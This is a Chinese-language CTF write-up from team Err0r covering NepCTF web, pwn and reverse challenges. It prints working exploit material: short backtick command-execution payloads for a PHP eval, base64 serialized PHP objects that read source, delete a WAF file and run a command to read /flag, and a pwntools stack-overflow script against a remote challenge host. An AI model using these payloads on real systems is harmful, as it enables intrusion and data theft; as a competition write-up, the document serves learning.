队伍名称：Err0r


<!-- more -->

队伍情况：



虽然平台八太行，但是部分题目质量很高，本菜鸡爬了，虚心学习。

本Wp侧重于思路记录，大佬们轻喷...

## WEB

### little_trick

#### payload：

```php
./?len=7&nep=`cat`;
./?len=7&nep=`*>a`;
访问./a
```

#### 思路：

源码

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    $nep = $_GET['nep'];
    $len = $_GET['len'];
    if(intval($len)<8 && strlen($nep)<13){
        eval(substr($nep,0,$len));
    }else{
        die('too long!');
    }
?>
```

非常简洁，传入两个参数然后`eval`执行，格式为

```
./?nep=`payload`;&len=n
```

利用`反引号和分号;执行命令

首先看到`len`用来截断字符串`nep`，而if中`intval($len)<8 && strlen($nep)<13`即长度不相等，刚开始以为需要利用整形溢出

> Intval最大的值取决于操作系统。 32 位系统最大带符号的 integer 范围是 -2147483648 到 2147483647。举例，在这样的系统上， intval(‘1000000000000’) 会返回 2147483647。64 位系统上，最大带符号的 integer 值是 9223372036854775807。

测试了一下发现不对，传入字符串视为**字符串类型**，并不存在整形溢出，如下



所以思路不对，接下来想到四字符RCE，[参考文章](https://blog.csdn.net/q20010619/article/details/109206728)，测试了一下，问题是测试下来目录非常的杂乱

flag就在当前目录，无法准确直接cat。**此脚本无效，以前的脚本直接用，仅展示**

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 3月 20, 2021
"""
import requests

baseurl = "http://127.0.0.1:10001/nep2021/little_trick/"

def req(url):
    res = requests.get(url).content.decode('utf8')
    return res

def execit(payload):
    url = baseurl+"?len=7&nep="+payload
    res = req(url)
    if "long" not in res:
        return 1
    else:
        return 0

def check(url):
    res = req(url)
    print(res)

if __name__ == "__main__":
    payload0 = ['>dir', '>f\>', '>kt-', '>sl', '*>v', '>rev', '*v>b']
    for i in payload0:
        payload = '`' + i + '`;'
        print(payload)
        execit(payload)
        待续
```

访问下v，结果仅能扫到目录



目录变得非常乱，于是想为何不能利用`*`直接读文件呢

> 输入统配符* ，Linux会把第一个列出的文件名当作命令，剩下的文件名当作参数

测试如下



测试可行，输出一个`cat`文件，然后目录就有`cat`/`index.php`/`nepctf.php`了，然后执行`*>a`，即将目录内容当作命令执行输出到文件a，cat全部文件，然后访问文件a即可




---

### 梦里花开牡丹亭

#### payload：

```
读取shell.php：
./?a[]=1&b[]=a
POST:
unser=Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6NDk6InBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9c2hlbGwiO3M6NzoiY29udGVudCI7czowOiIiO30=

---
删除waf.txt：
./?a[]=1&b[]=a
POST:
unser=Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7Tzo1OiJsb2dpbiI6Mzp7czo0OiJmaWxlIjtOO3M6ODoiZmlsZW5hbWUiO047czo3OiJjb250ZW50IjtOO31zOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086MTA6IlppcEFyY2hpdmUiOjU6e3M6Njoic3RhdHVzIjtpOjA7czo5OiJzdGF0dXNTeXMiO2k6MDtzOjg6Im51bUZpbGVzIjtpOjA7czo4OiJmaWxlbmFtZSI7czowOiIiO3M6NzoiY29tbWVudCI7czowOiIiO31zOjg6ImZpbGVuYW1lIjtzOjc6IndhZi50eHQiO3M6NzoiY29udGVudCI7aTo5O30=

---
读取flag：
./?a[]=1&b[]=a
POST:
unser=Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7Tzo1OiJsb2dpbiI6Mzp7czo0OiJmaWxlIjtOO3M6ODoiZmlsZW5hbWUiO047czo3OiJjb250ZW50IjtOO31zOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6Nzoid2FmLnR4dCI7czo3OiJjb250ZW50IjtzOjg6InByIC9mbGFnIjt9

是不是很简单？
```

很文艺的名字，我信了它《简单的PHP反序列化》

#### 思路：

源码：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include('shell.php');
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
if($_GET['a']!==$_GET['b']&&(md5($_GET['a']) === md5($_GET['b'])) && (sha1($_GET['a'])=== sha1($_GET['b']))){
    @unserialize(base64_decode($_POST['unser']));
}
```

分析下，首先要绕`$_GET['a']!==$_GET['b']&&(md5($_GET['a']) === md5($_GET['b'])) && (sha1($_GET['a'])=== sha1($_GET['b']))`，直接数组绕过，传入`./?a[]=1&b[]=a`即可，如下



##### 读取shell.php：

看Game类

```php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }
    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }
}
```

看到`__wakeup`第一反应可不可以直接绕，看了下版本`PHP/7.0.33`

> CVE-2016-7124反序列化绕过wakeup漏洞。
> 影响版本：PHP5 < 5.6.25 PHP7 < 7.0.10

乖乖走`__wakeup`，register类没有作用，看来得走login类

参数`register`的md5要为`21232f297a57a5a743894a0e4a801fc3`，一查，`admin`

那就没问题了，`__wakeup`将Game类的`file`/`filename`/`content`传入login，利用login的`__construct`赋值

Game类的变量choice即login类，利用Game类`__destruct`触发login类的checking函数

```php
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
        }
    }
}
```

login类的checking函数检查赋值的username和password，即Game类传过来的username和password。然后调用file即Game类的file的open函数。由于没有`__call`之类的魔术方法，不需要考虑其他。即本题所有变量都可在Game类直接赋值。

关键点就在于Open类了

```php
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
```



如图所示，存在waf.txt，`file_get_contents`为true，即存在waf.txt时会`file_get_contents($filename.".php");`，否则会`shell($content);`所以我们首先要利用伪协议读取`shell.php`的内容。

exp1.php如下

```php
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

//    public function __construct()
//    {
//        $this->username='user';
//        $this->password='user';
//    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}

$a = new Game();
$a->username = 'admin';
$a->password = "admin";
$a->register = "admin";

$a->choice = new login();
$a->file = new Open();
$a->filename = 'php://filter/convert.base64-encode/resource=shell';
$a->content = '';

var_dump(serialize($a));
var_dump(base64_encode(serialize($a)));
// 目录下必须有 shell.php waf.txt
```

得到payload

```php
Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6NDk6InBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9c2hlbGwiO3M6NzoiY29udGVudCI7czowOiIiO30=
```



读取到`shell.php`内容

```php
// shell.php
<?php
function shell($cmd){
    if(strlen($cmd)<10){
        if(preg_match('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/',$cmd)){
            die("NO");
        }else{
            return system($cmd);
        }
    }else{
        die('so long!');
    }
}
```

就是传入一个命令，过滤一堆读取函数然后长度要小于10并读取flag。

稍后再研究，那么现在的问题就是进shell函数，然而进shell函数写死了必须要waf.txt不存在。但waf.txt是有的



这就为难我胖虎了，思路至此over了。

---

##### 删除waf.txt：

寻找大佬博客文章，找到了指引思路的[文章](https://blog.csdn.net/weixin_42444939/article/details/100781890)，2019bytectf的一道web题EzCMS，原题要删除/覆盖目录下`.hatccess`，刚好本题的login类有漏洞可寻，php手册里查找open的同名函数，利用[ZipArchive::open](https://www.php.net/manual/zh/ziparchive.open.php)，其第二个参数里存在能覆盖指定文件的模式，直接删掉`waf.txt`

于是准备好了phar文件准备‘远程phar’反序列化，但是phar伪协议是不可以远程的



孩子比较呆，测了有一会。这里受到了那题固有思维的影响，其实并不需要打phar反序列化的，由login类中checking函数`$this->file->open($this->filename,$this->content)`，直接令Game类的file new一个ZipArchive()，filename即为waf.txt，content为模式`ZipArchive::OVERWRITE | ZipArchive::CREATE`，也就是9



测试如下



可见waf.txt成功被删除，exp2如下

```php
<?php
'''
类同上  
  
'''
  
$a = new Game();
$a->username = 'admin';
$a->password = "admin";
$a->register = "admin";

$a->choice = new login();
$a->file = new ZipArchive();
$a->filename = 'waf.txt';
$a->content = ZipArchive::OVERWRITE | ZipArchive::CREATE;

var_dump(serialize($a));
var_dump(base64_encode(serialize($a)));
```

得到payload

```
Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7Tzo1OiJsb2dpbiI6Mzp7czo0OiJmaWxlIjtOO3M6ODoiZmlsZW5hbWUiO047czo3OiJjb250ZW50IjtOO31zOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086MTA6IlppcEFyY2hpdmUiOjU6e3M6Njoic3RhdHVzIjtpOjA7czo5OiJzdGF0dXNTeXMiO2k6MDtzOjg6Im51bUZpbGVzIjtpOjA7czo4OiJmaWxlbmFtZSI7czowOiIiO3M6NzoiY29tbWVudCI7czowOiIiO31zOjg6ImZpbGVuYW1lIjtzOjc6IndhZi50eHQiO3M6NzoiY29udGVudCI7aTo5O30=
```

成功删除waf.txt




---

##### 读取flag：

ls没过滤，有兴趣可以执行ls看一眼，flag在根目录下

最后一步，分析shell.php，如何在过滤的情况下读取/flag，搜一圈，找到了linux的命令`pr`

> **pr命令** 用来将文本文件转换成适合打印的格式，它可以把较大的文件分割成多个页面进行打印，并为每个页面添加标题。



exp3如下

```php
<?
'''
  类同上
  
'''

$a = new Game();
$a->username = 'admin';
$a->password = "admin";
$a->register = "admin";

$a->file = new Open();
$a->filename = 'waf.txt';
$a->content = 'pr /flag';

var_dump(serialize($a));
var_dump(base64_encode(serialize($a)));
```

得到payload

```
Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6Nzoid2FmLnR4dCI7czo3OiJjb250ZW50IjtzOjg6InByIC9mbGFnIjt9
```

拿到flag




---

## Pwn

### xhh



栈溢出，填充0x10，然后找到system cat flag函数，据地址随机化后字节不变，小端更改地址，当图片刷到小蝌蚪的图案便getshell

exp:

```
from pwn import *
context.arch = 'amd64'
context.log_level='debug'

#p = process('./xhh')
p = remote('node2.hackingfor.fun',35402 )
#p = remote('127.0.0.1',12345)

payload = p64(0) + p64(1) + b"\xE1"

p.send(payload)

p.interactive()
```

---

## Re

### hardcsharp

```c#
private static void Main(string[] args)
{
    AesClass class2 = new AesClass();
    string key = "";
    string strB = "1Umgm5LG6lNPyRCd0LktJhJtyBN7ivpq+EKGmTAcXUM+0ikYZL4h4QTHGqH/3Wh0";
    byte[] buffer = new byte[] { 
        0x51, 0x52, 0x57, 0x51, 0x52, 0x57, 0x44, 0x5c, 0x5e, 0x56, 0x5d, 0x12, 0x12, 0x12, 0x12, 0x12,
        0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12
    };
    Console.WriteLine("Welcome to nepnep csharp test! plz input the magical code:");
    string str = Console.ReadLine();
    if (str.Length != 0x25)
    {
        Console.WriteLine("Nope!");
        Console.ReadKey();
    }
    else if ((str.Substring(0, 4) != "Nep{") || (str[0x24] != '}'))
    {
        Console.WriteLine("Nope!");
        Console.ReadKey();
    }
    else
    {
        for (int i = 0; i < 0x20; i++)
        {
            key = key + Convert.ToChar((int) (buffer[i] ^ 0x33)).ToString();
        }
        if (string.Compare(class2.AesEncrypt(str, key), strB) == 0)
        {
            Console.WriteLine("wow, you pass it!");
            Console.ReadKey();
        }
        else
        {
            Console.WriteLine("Nope!");
            Console.ReadKey();
        }
    }
}
```

反编译出c#代码

写exp：

```
a = [0x51, 0x52, 0x57, 0x51, 0x52, 0x57, 0x44, 0x5c, 0x5e, 0x56, 0x5d, 0x12, 0x12, 0x12, 0x12, 0x12,
        0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12]

for i in range(len(a)):
    print(chr(a[i] ^ 0x33),end="")
```

```
λ python3 test.py
badbadwomen!!!!!!!!!!!!!!!!!!!!!
```

Aes加密网站一波：




---

## 总结

很有收获，尤其是《简单的php反序列化》，又学到一个新姿势。